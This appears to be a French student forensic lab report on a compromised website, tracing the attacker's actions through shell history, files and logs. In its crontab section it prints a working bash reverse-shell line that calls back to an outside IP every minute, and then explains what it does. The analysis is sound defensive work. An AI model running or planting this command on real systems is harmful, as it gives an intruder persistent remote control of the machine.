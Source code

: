 # Rapport d'analyse

### Préparation

Pour intervenir dans ce cas, au préalable il faudra valider certains points de sécurité :

- [x] La station blanche est prête à accueillir l'élément à analyser.

- [x] La station blanche sur laquelle nous effectuons l'analyse est coupé de tout réseau.

- [x] La station blanche sur laquelle nous effectuons l'analyse est coupé de tout périphérique externe.

- [x] L'analyse de la machine s'effectue sur un clone virtuel de l'environnement de production.



### Introduction

Le site web Bosch-cyber a été attaqué. l'attaquant aurait récupéré des outils secrets très dangereux. Heureusement l'administration a mis le site eb maintenance. 

###### La mission : déterminer ce qui a été exfiltré par l'attaquant.

### Méthodologie

Dans cette partie seront données les manières d'analyser l'environnement qui hébèrge le site web Bosch-cyber. 


### Résultats

dans cette commande :

![Alt text](https://github.com/LuKieru/FORENSIC_TP_BOURGEOIS_LUCAS/blob/main/TP03/img/history.png "cat_hosts_passwd.png")

on voit qu'il y a un fichier .zip qui a été protégé par un mot de passe "bosch_cyber_tools.zip"
ce mot de passe peut etre lu depuis "/tmp/mypassword"


>unzip bosch_cyber_tools.zip 

demande un ==mot de passe==

> cat /etc/hosts

172.18.0.2

>cat /var/www/html/index.html

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Maintenance Bosch-Cyber</title>
</head>
<body>
    <p>Sorry for the inconvenience. We'e performing some issues at the moment. We'll be back up shortly!</p>
</body>
</html>
```


>cat .cache/
cat .bash_history 
cat .bash_logout 
cat .bashrc 
cat .profile 
cat .viminfo 
>cat .cache/

rien

>cat crontab

*/1 * * * * /bin/bash -c '/bin/bash -i >& /dev/tcp/138.66.89.12/4444 0>&1'

tache planifiée :
Il s'agit d'une tâche planifiée appelée Cron job, qui est exécutée sur un système Unix.

Le Cron job est configuré pour s'exécuter toutes les minutes (*/1 * * * *). Il exécute la commande /bin/bash -c '/bin/bash -i >& /dev/tcp/138.66.89.12/4444 0>&1'.

Cette commande ouvre un shell Bash et redirige son entrée/sortie vers un socket réseau. Plus précisément, elle envoie toute la sortie standard au socket réseau à l'adresse IP 138.66.89.12 et au numéro de port 4444, et elle envoie toute l'entrée standard depuis le socket réseau vers le shell Bash.

Ceci semble être une tentative de créer un shell inversé vers une machine distante à l'adresse IP et au numéro de port spécifiés. Il est important de noter que de telles actions peuvent être illégales et potentiellement nocives. Il est recommandé de enquêter et de remédier à de telles activités sur un système.

>cat access.log | grep "138.66.89.12"

résultat en image
